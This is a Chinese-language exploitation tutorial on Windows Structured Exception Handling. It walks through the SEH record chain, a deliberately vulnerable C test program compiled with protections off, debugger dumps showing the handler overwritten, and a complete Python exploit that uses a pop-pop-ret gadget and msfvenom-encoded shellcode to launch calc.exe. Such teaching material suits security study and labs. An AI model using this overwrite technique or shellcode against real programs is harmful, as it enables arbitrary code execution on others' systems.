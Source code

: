 # SEH(Structured Exception Handling)
## Instruction
结构化异常处理（SEH）是一种 Windows 机制，用于一致地处理硬件和软件异常。该结构通常表示为 try / except或try / catch 代码块。
```C
__try {
    // the block of code to try (aka the "guarded body")
    ...
}
__except (exception filter) {
    // the code to run in the event of an exception (aka the "exception handler)
    ...
}
```
异常处理程序可以由应用程序（通过上述 __try / __ except 构造）或由操作系统本身实现。由于错误的类型很多（除零，超出范围等），因此可以有许多相应的异常处理程序。

不论在何处定义异常处理程序（应用程序与操作系统），还是设计异常处理程序的类型，所有处理程序均由 Windows SEH 通过指定数据结构和函数的集合进行集中统一管理。

## SEH的主要组成部分
对于每个异常处理程序，都有一个 Exception Registration Record 结构，如下所示：
```C
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```
这些 Exception Registration Record 使用链表的结构连接在一起 。其中的第一个字段（*Next）是指向SEH链中下一个 _EXCEPTION_REGISTRATION_RECORD 的指针。换句话说，可以使用 *Next 从上到下浏览 SEH 链。第二个字段（Handler）是指向异常处理函数的指针，该函数如下所示：
```C
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```
第一个函数参数是指向 _EXCEPTION_RECORD 结构的指针。该结构包含有关给定异常的信息，包括异常代码，异常地址和参数数量。

_except_handler 函数使用这些信息，以确定异常是否可以由当前异常处理函数处理，或者它需要移交到下一个 Exception Registration Record 进行处理。
![SEH_Chain](./figure/SEH_Chain.jpg)

## 利用SEH
在 SEH 下，直接覆盖 SEH_Handler 字段，然后触发异常后，就可以直接控制程序的执行流。测试程序代码（使用VS2017命令行编译）：
```C
// cl SEH_Chain.c /GS- /DYNAMICBASE:NO /link /FIXED
int vul()
{
    char s[0x20] = {0};
    __try
    {
        scanf("%s",s);
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        puts("GG");
    }        
    return 0;
}

int main(int argc, char **argv)
{
    puts("Welcome!");
    vul();
    return 0;
}
```
未修改的SEH链：
```
地址       异常处理例程   模块/标签     注释
0019FF60    00401E10    seh_chain 
0019FFCC    77A79F80    ntdll     
0019FFE4    77A88F07    ntdll     
```
栈空间：
```
0019FF60  0019FFCC  指向SEH_Record[1]的指针
0019FF64  00401E10  seh_chain.00401E10
0019FF68  E1C62A0A  
0019FF6C  00000000  
0019FF70  0019FF80  
0019FF74  76036359  返回到 kernel32.76036359 自 ???
0019FF78  00379000  
0019FF7C  76036340  kernel32.76036340
0019FF80  0019FFDC  
0019FF84  77A67B74  返回到 ntdll.77A67B74 自 ???
0019FF88  00379000  
0019FF8C  E03A396D  
0019FF90  00000000  
0019FF94  00000000  
0019FF98  00379000  
0019FF9C  00000000  
0019FFA0  00000000  
0019FFA4  00000000  
0019FFA8  00000000  
0019FFAC  00000000  
0019FFB0  00000000  
0019FFB4  00000000  
0019FFB8  00000000  
0019FFBC  00000000  
0019FFC0  00000000  
0019FFC4  0019FF8C  
0019FFC8  00000000  
0019FFCC  0019FFE4  指向SEH_Record[2]的指针
0019FFD0  77A79F80  ntdll.77A79F80
```
可以很清晰的看到SEH链的存在。scanf覆盖之后的SEH链：
```
地址       异常处理例程   模块/标签 注释
0019FF10    42424242  
42424242    00000000  
```
处理例程和下个SEH结构的位置都已经被修改。尝试输入大量数据以触发异常：
```python
python -c "print 'A'*0x28 + 'B'*8 + 'A'*0x200"
```
触发异常后的寄存器：
```
EAX : 00000000
EBX : 00000000
ECX : 42424242
EDX : 77A88DC0     ntdll.77A88DC0
EBP : 0019F0D8
ESP : 0019F0B8
ESI : 00000000
EDI : 00000000
EIP : 42424242
EFLAGS : 00010246
```
可以看到，EIP已经被控制到了输入的 BBBB(42424242) 处，从而控制了程序的执行流。
## SEH的常用利用方式
[attachment here](https://pan.baidu.com/s/1e0yh7N_O2X298NZS9fa55A)

EIP被控制后的栈空间：
```
0019F0B8  77A88DA2  返回到 ntdll.77A88DA2 自 ???
0019F0BC  0019F1B8  
0019F0C0  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA... "
0019F0C4  0019F208  
0019F0C8  0019F144  &"BBBBBBBBAAAAAAAAAAAAAAAA... "
0019F0CC  0019F6FC  指向SEH_Record[1]的指针
0019F0D0  77A88DC0  ntdll.77A88DC0
0019F0D4  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA..."
0019F0D8  0019F1A0  
```
可以看到 ESP+0x8 处的地址正好指向触发异常的 SEH 的结构处，当程序未开启 DEP 时，可以通过 POP+POP+RET 的方式，执行到 ShellCode 上。寻找一个 gadget：（x32dbg ->右击->搜索->所有模块->命令，或者其他方法寻找）
```asm
0040292A | 5E | pop esi |
0040292B | 5B | pop ebx |
0040292C | C3 | ret     |
```
编写一个EXP：
```python
from pwintools import *
import struct

def p32(addr):
    return struct.pack("<I",addr)

pop_pop_ret = 0x0040136F

p = Process("./SEH_Chain_VC6.exe")

# msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x09\x0a\x0b\x0c\x0d\x1a\x20' -f python
buf =  ""
buf += "\xb8\xb6\xc7\xe5\xf9\xda\xdb\xd9\x74\x24\xf4\x5d\x29"
buf += "\xc9\xb1\x31\x83\xed\xfc\x31\x45\x0f\x03\x45\xb9\x25"
buf += "\x10\x05\x2d\x2b\xdb\xf6\xad\x4c\x55\x13\x9c\x4c\x01"
buf += "\x57\x8e\x7c\x41\x35\x22\xf6\x07\xae\xb1\x7a\x80\xc1"
buf += "\x72\x30\xf6\xec\x83\x69\xca\x6f\x07\x70\x1f\x50\x36"
buf += "\xbb\x52\x91\x7f\xa6\x9f\xc3\x28\xac\x32\xf4\x5d\xf8"
buf += "\x8e\x7f\x2d\xec\x96\x9c\xe5\x0f\xb6\x32\x7e\x56\x18"
buf += "\xb4\x53\xe2\x11\xae\xb0\xcf\xe8\x45\x02\xbb\xea\x8f"
buf += "\x5b\x44\x40\xee\x54\xb7\x98\x36\x52\x28\xef\x4e\xa1"
buf += "\xd5\xe8\x94\xd8\x01\x7c\x0f\x7a\xc1\x26\xeb\x7b\x06"
buf += "\xb0\x78\x77\xe3\xb6\x27\x9b\xf2\x1b\x5c\xa7\x7f\x9a"
buf += "\xb3\x2e\x3b\xb9\x17\x6b\x9f\xa0\x0e\xd1\x4e\xdc\x51"
buf += "\xba\x2f\x78\x19\x56\x3b\xf1\x40\x3c\xba\x87\xfe\x72"
buf += "\xbc\x97\x00\x22\xd5\xa6\x8b\xad\xa2\x36\x5e\x8a\x5d"
buf += "\x7d\xc3\xba\xf5\xd8\x91\xff\x9b\xda\x4f\xc3\xa5\x58"
buf += "\x7a\xbb\x51\x40\x0f\xbe\x1e\xc6\xe3\xb2\x0f\xa3\x03"
buf += "\x61\x2f\xe6\x67\xe4\xa3\x6a\x46\x83\x43\x08\x96"

payload = ""
payload += "\x90"*0x28
payload += "\xEB\x14\x90\x90" # asm("jmp $+22")
payload += p32(pop_pop_ret)
payload += "\x90"*0x20
payload += buf
payload = payload.ljust(0x200,"\x90")

raw_input()
p.sendline(payload)
raw_input()
```
执行exp后，将会弹出一个计算器。

